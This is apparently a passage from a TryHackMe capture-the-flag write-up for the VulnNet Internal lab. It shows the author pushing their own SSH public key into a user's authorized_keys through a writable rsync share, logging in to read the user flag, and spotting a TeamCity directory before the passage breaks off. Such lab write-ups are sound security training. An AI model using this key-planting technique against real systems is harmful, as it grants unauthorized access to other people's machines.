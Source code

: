 Let's sync our SSH public key:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ cp ~/.ssh/id_rsa.pub authorized_keys

┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ rsync authorized_keys rsync://rsync-connect@10.10.190.83/files/sys-internal/.ssh                            3 ⨯
Password: 
~~~

## SSH connection / user flag

We can now connect through SSH and get the user flag:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ ssh sys-internal@10.10.190.83        
sys-internal@vulnnet-internal:~$ cat user.txt 
THM{da7c20696831f253e0afaca8b83c07ab}
~~~


# What is the root flag? (root.txt)

There is an interesting `TeamCity` directory at the root of the file system:

~~~
sys-internal@vulnnet-internal:/$ ls -la /
total 533824
drwxr-xr-x  24 root root      4096 Feb  6 12:58 ./
drwxr-xr-x  24 root root      4096 Feb  6 12:58 ../
drwxr-xr-x   2 root root      4096 Feb  2 14:05 bin/
drwxr-xr-x   3 root root      4096 Feb  1 14:02 boot/
drwx------   2 root root      4096 Feb  1 13:41 .cache/
drwxr-xr-x  17 root root      3720 May 27 07:34 dev/
drwxr-xr-x 129 root root     12288 Feb  7 19:21 etc/
drwxr-xr-x   3 root root      4096 Feb  1 13:51 home/
lrwxrwxrwx   1 root root        34 Feb  1 14:01 initrd.img -> boot/initrd.img-4.15.0-135-generic
lrwxrwxrwx   1 root root        33 Feb  1 13:30 initrd.img.old -> boot/initrd.img-4.15.0-20-generic
drwxr-xr-x  18 root root      4096 Feb  1 13:43 lib/
drwxr-xr-x   2 root root      4096 Feb  1 13:28 lib64/
drwx------   2 root root     16384 Feb  1 13:27 lost+found/
drwxr-xr-x   4 root root      4096 Feb  2 10:49 media/
drwxr-xr-x   2 root root      4096 Feb  1 13:27 mnt/
drwxr-xr-x   4 root root      4096 Feb  2 10:28 opt/
dr-xr-xr-x 136 root root         0 May 27 07:33 proc/
drwx------   8 root root      4096 Feb  6 13:32 root/
drwxr-xr-x  27 root root       880 May 27 08:37 run/
drwxr-xr-x   2 root root      4096 Feb  2 14:06 sbin/
drwxr-xr-x   2 root root      4096 Feb  1 13:27 srv/
-rw-------   1 root root 546529280 Feb  1 13:27 swapfile
dr-xr-xr-x  13 root root         0 May 27 08:39 sys/
drwxr-xr-x  12 root root      4096 Feb  6 13:30 TeamCity/ <----------------------- interesting
drwxrwxrwt  11 root root      4096 May 27 08:40 tmp/
drwxr-xr-x  10 root root      4096 Feb  1 13:27 usr/
drwxr-xr-x  13 root root      4096 Feb  1 13:43 var/
lrwxrwxrwx   1 root root        31 Feb  1 14:01 vmlinuz -> boot/vmlinuz-4.15.0-135-generic
lrwxrwxrwx   1 root root        30 Feb  1 13:30 vmlinuz.old -> boot/vmlinuz-4.15.0-20-generic
~~~
